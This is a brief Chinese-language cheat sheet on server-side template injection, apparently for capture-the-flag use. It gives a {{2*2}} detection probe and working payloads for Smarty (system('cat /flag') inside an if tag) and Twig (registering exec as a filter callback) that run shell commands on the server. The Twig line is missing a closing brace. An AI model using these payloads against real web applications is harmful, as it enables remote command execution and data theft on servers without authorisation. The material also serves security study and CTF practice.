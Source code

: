 # SSTI_injection

---

**SSTI模板注入**

```
smarty模板引擎
twig模板引擎
```

**判断注入**

```
参数：user=1                              回显：1
参数：user={{2*2}}                        回显：4
```

**smarty模板引擎**

```
参数：user={if phpinfo()}{/if}            回显：phpinfo页面
参数：user={if system('cat /flag')}{/if}  回显：执行命令cat /flag
```

**twig模板引擎**

```
参数：user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}
回显：执行命令cat /flag
```

